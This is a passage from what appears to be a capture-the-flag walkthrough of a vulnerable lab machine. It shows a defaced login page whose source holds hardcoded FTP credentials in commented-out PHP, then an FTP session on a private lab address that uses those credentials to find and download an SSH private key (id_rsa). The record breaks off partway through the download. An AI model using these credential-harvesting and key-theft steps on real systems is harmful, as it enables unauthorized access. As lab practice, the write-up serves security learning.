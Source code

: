 ```html
<!DOCTYPE html>
<html>
<head> 
	<title>login</title>
</head>
<body>
		<div id="main">
			<h1> vanakam nanba. I hacked your login page too with advanced hacking method</h1>
			<form method="POST">
			Username <input type="text" name="username" class="text" autocomplete="off" required>
			Password <input type="password" name="password" class="text" required>
			<input type="submit" name="submit" id="sub">
			</form>
			</div>
</body>
</html>
```


```php
<?php
//	if (isset($_POST['submit'])) {
//		$un=$_POST['username'];
//		$pw=$_POST['password'];
//
//	if ($un=='ftpuser' && $pw=='B0ss_B!TcH') {
//		echo "welcome"
//		exit();
// }
// else 
//	echo "Invalid creds"
// }
?>
```

Logged into the FTP server with the credentials found in the source of the pwned.vuln page. This provides two files which are a private key for the SSH server - guessing - and a file named note.txt.

```sh
ftp 192.168.56.101
Connected to 192.168.56.101 (192.168.56.101).
220 (vsFTPd 3.0.3)
Name (192.168.56.101:timothyl): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
227 Entering Passive Mode (192,168,56,101,112,223).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 10 12:47 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> dir
227 Entering Passive Mode (192,168,56,101,122,32).
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2602 Jul 09 15:05 id_rsa
-rw-r--r--    1 0        0              75 Jul 09 17:41 note.txt
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
227 Entering Passive Mode (192,168,56,101,244,206).
150 Opening BINARY mode data connection for id_rsa (2602 bytes).
```